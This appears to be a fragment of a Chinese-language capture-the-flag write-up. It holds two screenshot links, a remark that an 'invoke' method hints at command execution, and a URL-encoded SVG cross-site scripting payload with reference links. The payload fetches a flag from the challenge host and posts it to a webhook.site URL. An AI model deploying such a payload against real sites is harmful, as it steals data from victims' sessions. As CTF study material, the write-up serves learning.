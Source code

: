 [![](assets/1699929746-0d985eda7174c1e31e7a1903eaf10f54.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231110002453-837f1520-7f1c-1.png)  
​

​  
[![](assets/1699929746-24d3ffca7e2e5348e1e277165f23b646.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231110002501-8804c8c4-7f1c-1.png)  
​

存在 invoke 方法 很有命令执行的可能

```plain
%3C?xml%20version=%221.0%22%20standalone=%22no%22?%3E%0A%3C!DOCTYPE%20svg%20PUBLIC%20%22-//W3C//DTD%20SVG%201.1//EN%22%20%22http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd%22%3E%0A%0A%3Csvg%20version=%221.1%22%20baseProfile=%22full%22%20xmlns=%22http://www.w3.org/2000/svg%22%3E%0A%20%20%3Cpolygon%20id=%22triangle%22%20points=%220,0%200,50%2050,0%22%20fill=%22#009900%22%20stroke=%22#004400%22/%3E%0A%20%20%3Cscript%20type=%22text/javascript%22%20src=%22https://x0.nz/WTHS%22%3E%0Avar%20xhr%20=%20new%20XMLHttpRequest();%0Axhr.open(%22GET%22,%20%22https://hallmark.web.actf.co/flag%22);%0Axhr.send();%0Avar%20xh%20=%20new%20XMLHttpRequest();%0Axh.open(%22POST%22,%20%22https://webhook.site/47ea02d3-8c05-417b-b561-c3c38aaca665/flag%22%2bxhr.response);%0A%0Axh.send(xhr.response);%0Afetch('https://hallmark.web.actf.co/flag').then(res%20=%3E%20res.text()).then(res%20=%3E%20fetch(%22https://webhook.site/47ea02d3-8c05-417b-b561-c3c38aaca665/flag%22%2bres))%0A%3C/script%3E%0A%3C/svg%3E
```

## 参考文章

[https://tttang.com/archive/1611/](https://tttang.com/archive/1611/)

[https://goodapple.top/archives/696](https://goodapple.top/archives/696)
